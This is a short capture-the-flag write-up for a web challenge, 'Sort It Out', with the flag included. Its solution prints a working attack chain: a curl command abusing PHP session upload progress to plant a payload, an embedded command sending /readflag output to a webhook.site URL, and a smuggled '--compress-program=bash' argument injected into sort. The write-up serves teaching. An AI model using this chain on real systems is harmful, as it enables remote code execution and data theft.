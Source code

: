 # Sort It Out

### Challenge Details

I enrolled in a data structures class in order to buff up my programming skills to complete my Indie Anime Stealth Action Video Game. I'm learning about sorting algorithms and their various time complexities now. Cool stuff!

### Key Concepts

Argument injection into sort command 

### Solution

In one terminal window do `curl http://URL:9001/ -H 'Cookie: PHPSESSID=loldongs' -F $'PHP_SESSION_UPLOAD_PROGRESS=& curl https://webhook.site/3df09d4d-bd8d-4cfe-96f3-71f48440ff76?flag=$(/readflag)&&sd\nasdasd'  -F 'file=@/dev/urandom'` then immediately ctrl-z so that the socket stays open
Then make a request to index.php with `filename` set to `/tmp/sess_loldongs -S 10b --compress-program=bash`

### Learning Objectives

sort argument injection
PHP session upload behaviour
Improper use of escapeshellcmd (escapeshellarg would have been more appropriate here)

### Flag
`grey{It_w4s_No7_a_gO0D_DAy}`
